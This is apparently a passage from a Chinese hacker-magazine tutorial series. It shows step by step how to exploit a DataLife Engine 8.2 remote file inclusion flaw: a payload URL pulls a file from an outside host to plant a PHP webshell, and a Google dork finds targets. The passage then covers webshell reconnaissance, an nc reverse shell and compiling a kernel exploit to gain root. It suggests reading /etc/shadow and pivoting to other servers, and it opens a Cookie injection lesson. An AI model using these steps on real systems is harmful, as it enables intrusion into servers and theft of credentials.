

存在远程文件包含漏洞的程序还真不少，我们来看“DataLife Engine 8.2 dle_config_api Remote File Inclusion Vulnerability”这个，关于该漏洞的详细信息链接地址为 http://www.milw0rm.com/exploits/9572，打开后如图17所示。

其中“DatalifeEngine 8.2 Remote File Inclusion Vulnerability”是漏洞的名字，可以理解为 DatalifeEngine 这个程序 8.2 版本的远程文件包含漏洞；“Found by”后面跟的是漏洞的发现者；“home script”给出了存在漏洞的源程序的下载地址（当然由于时间关系有的下载链接已经失效了）；“Exploit”很重要，它给出了漏洞的利用方法，比如这个漏洞的 Exploit 是 `www.site/path/engine/api/api.class.php?dle_config_api=[shell.txt?]`，利用方法就是在存在这个漏洞的网站的网址后面加上 `/engine/api/api.class.php?dle_config_api=[shell.txt?]`，其中 shell.txt 就是你要包含的远程文件。

可以是上面我们提到的 `http://xunyuan8.com/test/x.txt`；“google dork”给出了使用 Google 搜索存在这个漏洞的网站的一个搜索参考关键词，它给出的搜索关键词是“Powered By DataLife Engine”，通过在 Google 中搜索 Powered By DataLife Engine 就可以找到可能存在 DatalifeEngine 8.2 Remote File Inclusion Vulnerability 漏洞的网站。

在存在漏洞的网址后面加上“/engine/api/api.class.php?dle_config_api=[shell.txt?]”就可以得到 webshell 了，比如加上“/engine/api/api.class.php?dle_config_api=http://xunyuan8.com/test/x.txt?”就可以在存在漏洞的网站的 /engine/api/ 目录下生成一句话木马服务端 x.php 了。

关于远程文件包含漏洞就为大家介绍到这里，希望大家下课后自己多去实践一下。为了方便大家在本地测试，我把上面介绍的 123.php 和 x.txt 也一起打包提供给大家。接下来我再简单地介绍一下 Linux 下的提权方法。

## 三、Linux下简单提权方法

以前我在菜鸟学堂的课程中也曾介绍过提权方法，但都是 Windows 系统下的提权方法，而在网络上有很多服务器使用的操作系统是 Unix 或 Linux，尤其是很多采用 PHP 程序的网站服务器，使用的操作系统都是 Linux，因此今天我就简单地介绍一下 Linux 下的提权方法。

在得到一个 Linux 系统下的 webshell 后，首先是要收集一些信息，以方便我们的提权。比如我的 webshell 是 PhpSpy2008，通过 File Manager 可以查看网站目录下的文件，找到数据库链接文件，留意一下数据库连接密码，如果管理员密码通用，也就是数据库连接密码也是 root 用户的密码，而服务器又开了 SSH 的话，那我们就可以使用 root 用户远程登录了。我就遇到过一次，得到一台 Linux 服务器上的 webshell 后，发现权限限制得很厉害，一时提权没有办法进行下去了，后来试着使用找到的数据库连接密码作为 root 用户的密码登录 SSH，竟然成功了。另外，还可以执行一些 Linux 的命令来获取一些信息，在 PhpSpy2008 中点“Execute Command”就来到了执行命令的地方，如图18。





在 webshell 下一般有权限执行并比较有用的命令有：

- **uname -a**，可以查看系统的内核版本信息，命令执行后的显示如图19所示，其中最前面的 Linux 说明是 Linux 系统，2.4.21-15.0.3 是内核版本号，这个内核版本号非常重要，如果采用内核的溢出漏洞来提权，那么内核版本号就是寻找漏洞利用程序时最重要的参考信息。
- 执行 **uptime** 命令可以显示系统已经启动了多长时间。
- 执行 **ps -aux** 命令可以列出系统中的进程，如图20。
- 还有 **netstat -an** 命令，有些同学在看到它时，可能会说这不是 Windows 系统下的命令吗？是的，但它也是 Linux 系统下的命令，而且其功能都是显示端口开放情况。





在 Linux 提权中使用最多也是最简单的方法，就是利用 Linux 系统内核的溢出漏洞来提权。利用 Linux 系统内核的溢出漏洞提权要在命令行下完成，因此要提权首先就要得到一个执行命令的窗口，尽管 webshell 可以执行一些命令，但由于可能会存在命令回显不完整等情况，我们一般从 Linux 系统反弹一个 shell 出来，也就是反弹一个命令窗口到本地。很多 PHP webshell 也都集成了反弹 shell 的功能，比如 PhpSpy2008 的“Back Connect”功能就是反弹 shell 用的，如图21。





注意，只有 PhpSpy2008 在 Linux 服务器上时才会显示“Back Connect”这个功能，而如果 PhpSpy2008 在 Windows 服务器上则没有反弹 shell 出来的功能，干脆就把“Back Connect”给隐藏了，如图22所示就是在 Windows 系统下的 PhpSpy2008，可以看到没有“Back Connect”菜单。

为了反弹一个 shell 到本地，我们需要先在本地使用 nc 监听一个端口，我这里监听 12345 端口，执行命令 `nc -vv -l -p 12345` 后就开始监听 12345 端口了，如图23。



图23



图24



图25

我们来到 PhpSpy2008 的“Back Connect”功能处，在“Your IP”后面已经自动给出了你当前的外网 IP 地址。由于是反弹 shell 到你的电脑上，因此你的电脑必须要有外网 IP 地址（没有的话做端口映射也可以的，但我没有测试过），在“Your Port:”后面填写你在本地监听的端口，默认是 12345 端口，由于我在本机监听的也是 12345 端口，所以就不用更改了，“Use”保持默认的 perl，点击图21中的“Start”按钮开始反弹，过了一小会儿本地监听的 12345 端口就有了反应，如图24，还给出了一些信息，比如 Linux 系统的内核版本是 2.6.9，并给出了当前用户的信息。

shell 反弹回来了，下面该找个 Linux 内核的本地溢出程序了，还是到 milw0rm 上去寻找，搜索 Linux Kernel 后找到了很多 Linux 内核的漏洞信息，如图25。

我找到了“Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit”这个本地溢出漏洞，受影响的 Linux 内核版本是 2.6 < 2.6.19，而我们要提权的 Linux 内核版本是 2.6.9，正好可以利用。把漏洞利用代码保存为 exp.c，在返回来的 shell 窗口中输入命令 `pwd`，发现 shell 的当前路径还是网站根目录下的 data 目录，我们通过 PhpSpy2008 把 exp.c 上传到 data 目录下，再在反弹回来的 shell 窗口中执行命令 `gcc -v`，来查看服务器是否安装了 gcc，因为我们需要使用 gcc 来编译漏洞利用程序，返回的结果中发现“gcc version 3.4.6 20060404 (Red Hat 3.4.6-3)”，说明安装了 gcc，如图26。



图26



图27



图28

执行命令 `gcc -o exp exp.c`，来把 exp.c 编译为可执行文件 exp，没有出错就表示编译成功了。通过执行 `ls` 命令发现 exp 这个文件已经生成了，如图27。下面来执行生成的文件，输入命令 `./exp` 来运行 exp（必须输入 `./exp`，输入 `exp` 会提示找不到文件，这里要注意），命令提示符变为了“sh-3.00#”，对 Linux 有所了解的朋友就知道“#”对应着 root 权限，我们执行命令 `whoami` 显示为 root……

命令 `id` 后显示“uid=0(root) gid=0(root) groups=1(bin),2(daemon),4(adm),7(lp)”，说明我们确实已经得到了 root 权限，如图28。

至此，我们利用一个 webshell 通过提权得到了 Linux 系统的最高 root 权限，在提权得到 root 权限后还有很多事情可以做，比如使用“cat /etc/shadow”读取 shadow 文件后破解用户的密码，通过这台服务器为基础再继续渗透别的服务器等，当然这些都不是本节课要讲的内容了。Linux 下的提权还有别的方法，但由于我刚接触这方面的知识，会的东西也太少了，所以就不能再给大家继续介绍了，在此深表歉意。

这节课给大家介绍了远程文件包含漏洞和 Linux 下的简单提权方法，都是很基础很简单的东西，希望大家下课后多动手多实践，都能灵活掌握。

（文章中涉及到的 nc.exe、phpspy2008、lanker 一句话 PHP 后门、123.php 以及 Linux 的本地溢出程序，已经收录在了光盘中）

# 从零开始学Cookie注入



今天是农历 2009 年菜鸟学堂的最后一堂课，看到教室里同学们早已经到了，txcbg 的心中非常感动……“感激各位菜鸟学堂这么冷的天还要跑来听我讲课，大家给我的支持与鼓励，我永远也忘不了！”

“txcbg 老师，你就不必客套了，这次你打算给我们讲什么新知识呢？”

“讲什么知识，我也不知道。”台下的叉子们晕倒了一片。

“呵呵，开个玩笑，今天我要给大家介绍一下 Cookie 注入。”

“什么是 Cookie 注入呢？”——小叉子忍不住问道。

在 ASP 中，id 后面跟的数字是通过 Request 对象获得的，Request 对象获取客户端提交数据通常用的是 Request.QueryString 和 Request.Form 两种方式，同时 Request 对象可以不通过集合来获得数据，即直接使用 `request("name")`。当我们省略具体的集合名称时，ASP 是按 QueryString、Form、Cookie、ServerVariables 集合的顺序来搜索的，当没有 QueryString 和 Form 提交时，就会尝试 Cookie 提交方式，而 Cookie 我们却是可以修改的，因此漏洞就产生了。

大家请听我慢慢道来，首先来看看什么是 Cookie。Cookie 有时也使用其复数形式 Cookies 表示，指某些网站为了辨别用户身份、进行 session 跟踪而储存在用户本地终端上的数据（通常经过了加密）。Cookie 是由服务器端生成，发送给 User-Agent（一般是浏览器），浏览器会将 Cookie 的 key/value 保存到某个目录下的文本文件内，在浏览器下次请求同一网站时就发送该 Cookie 给服务器（前提是浏览器设置为启用 Cookie）。Cookie 名称和值可以由服务器端自己定义，对于 JSP 而言也可以直接写入 jsessionid，这样服务器可以知道该用户是否为合法用户以及是否需要重新登录等。

在 ASP 中，Request 对象获取客户端提交数据常用的是 GET 和 POST 两种方式，同时 Request 对象可以不通过集合来获得数据，即直接使用 `request("name")`，但它效率低下，容易出错。当我们省略具体的集合名称时，ASP 是按 **QueryString(GET)、Form(POST)、Cookie、ServerVariables** 集合的顺序来搜索的。Cookie 是保存在客户端的一个文本文件内，可以进行修改，这样一来我们就可以利用 Request.Cookies 方式来提交变量的值，从而利用系统漏洞来进行注入攻击，这就是 Cookie 注入。

